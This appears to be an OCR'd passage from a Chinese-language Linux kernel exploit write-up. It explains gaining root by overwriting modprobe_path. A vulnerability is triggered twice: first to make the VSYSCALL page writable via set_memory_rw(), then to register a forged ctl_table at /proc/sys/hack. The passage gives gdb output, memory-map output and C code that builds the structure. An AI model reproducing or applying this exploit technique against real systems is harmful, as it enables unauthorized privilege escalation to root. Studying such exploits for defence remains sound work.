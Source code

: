     static int call_modprobe(char *module_name, int wait)
    {
        ...
        info = call_usermodehelper_setup(modprobe_path, argv, envp, GFP_KERNEL,
                        NULL, free_modprobe_argv, NULL);
        ...
        return call_usermodehelper_exec(info, wait | UMH_KILLABLE);
        ...
    }

实际情况也是这样：

    (gdb) p modprobe_path 
    $1 = "/sbin/modprobe", '\000' <repeats 241 times>

内核变量`modprobe_path`保存的是modprobe程序的路径，我们把它改成提权程序的路径，这样只要触发
模块自动加载，我们的提权程序就能以root权限启动了。我们利用`sysctl + proc_dostring()`的组合
来实现写modprobe_path变量。

- 内核中找一个用户空间可以写入的地址来存放`struct ctl_table`结构体，这里选用VSYSCALL的页。
  内核中VSYSCALL地址是一个固定的地址0xffffffffff600000。大小是一个页4096字节。

        #define VSYSCALL_ADDR (-10UL << 20) // 0xffffffffff600000

        static struct vm_area_struct gate_vma = {
            .vm_start	= VSYSCALL_ADDR,
            .vm_end		= VSYSCALL_ADDR + PAGE_SIZE,
            .vm_page_prot	= PAGE_READONLY_EXEC,
            .vm_flags	= VM_READ | VM_EXEC,
            .vm_ops		= &gate_vma_ops,
        };
   
   每个应用程序都会自动映射VSYSCALL的地址空间，拥有只读和可执行权限。

        [elemeta@emcos66x64 ~]$ grep vsyscall /proc/self/maps
        ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0        [vsyscall]

- 第一次触发漏洞，执行内核函数`set_memory_rw()`让用户空间对VSYSCALL页有写权限。我们可以利用的范围是
  0xffffffffff600000 - 0xffffffffff601000。


- 我们选择在`VSYSCALL_ADDR+0x850`处构造`struct ctl_table`结构体, 让`proc_handler = proc_dostring()`, 
  `data = modprobe_path`。
- 第二次触发漏洞，执行内核函数`register_sysctl_table`注册该`ctl_table`。路径是/proc/sys/hack、我们
  用它来修改`modprobe_path`变量的内容。

        c = (struct ctl_table *)(VSYSCALL+0x850);
        memset((char *)(VSYSCALL+0x850), '\x00', 1952);
        strcpy((char *)(VSYSCALL+0xf00),"hack");
        memcpy((char *)(VSYSCALL+0xe00),"\x01\x00\x00\x00",4);
        c->procname = (char *)(VSYSCALL+0xf00);
        c->mode = 0666;
        c->proc_handler = (void *)(off->proc_dostring);
        c->data = (void *)(off->modprobe_path);
        c->maxlen=256;
        c->extra1 = (void *)(VSYSCALL+0xe00);
        c->extra2 = (void *)(VSYSCALL+0xd00);
